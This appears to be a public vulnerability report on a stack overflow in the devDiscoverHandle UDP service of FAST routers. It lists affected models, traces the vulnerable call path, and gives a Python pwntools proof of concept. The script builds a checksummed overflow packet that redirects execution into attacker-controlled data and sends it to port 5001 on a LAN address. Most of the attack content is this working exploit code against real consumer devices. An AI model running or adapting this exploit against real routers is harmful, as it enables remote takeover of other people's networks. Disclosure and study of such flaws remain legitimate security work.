 # FAST Router Vulnerability Report

FAST router have a stack overflow issue in `devDiscoverHandle` server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest FWB, FIAP, FAC, FCAP series, including FWB201S, FWB505, FIAP300P, FIAP303P, FAC1203R, FIAP300L, FAC1200R, FIAP301D, FIAP301P, FAC1900R, FCAP1200GP, FWB200, FWB201, FIAP300D, etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

This vulnerability happen when devDiscoverHandle receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![image-20210514160550480](devDiscoverHandle/image-20210514160550480.png)

## PoC

```python
import sys
import struct
import requests
from pwn import *
from time import sleep


udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'poc'.ljust(750-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

assert(len(payload2) < 0x300)

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.3.28',5001))
udp.close()
sleep(1)
print("[+] Success")

```

